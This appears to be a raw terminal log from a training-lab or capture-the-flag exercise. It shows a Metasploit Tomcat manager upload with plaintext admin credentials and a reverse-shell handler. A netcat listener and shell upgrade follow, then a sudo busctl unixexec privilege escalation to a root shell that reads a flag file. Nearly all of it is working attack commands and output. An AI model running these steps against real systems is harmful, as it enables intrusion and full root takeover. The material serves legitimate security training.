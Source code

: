 sudo msfconsole -q
set LHOST 10.10.14.179
set LPORT 4445
set RHOSTS 10.129.78.151
set HttpPassword T0mc@t_s3cret_p@ss!
set HttpUsername tomcatadm
set RPORT 8080

[*] Started reverse TCP handler on 10.10.14.179:4445 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying dyBKOBSelWflZHqT3yZOLNh...
[*] Executing dyBKOBSelWflZHqT3yZOLNh...
[*] Undeploying dyBKOBSelWflZHqT3yZOLNh ...
[*] Undeployed at /manager/html/undeploy
[*] Exploit completed, but no session was created.

nc -lvnp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@nix03:/var/lib/tomcat9$ 

sudo busctl --show-machine

tomcat@nix03:/var/lib/tomcat9$ sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
<:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
```
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/flag5.txt
cat /root/flag5.txt
LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}
```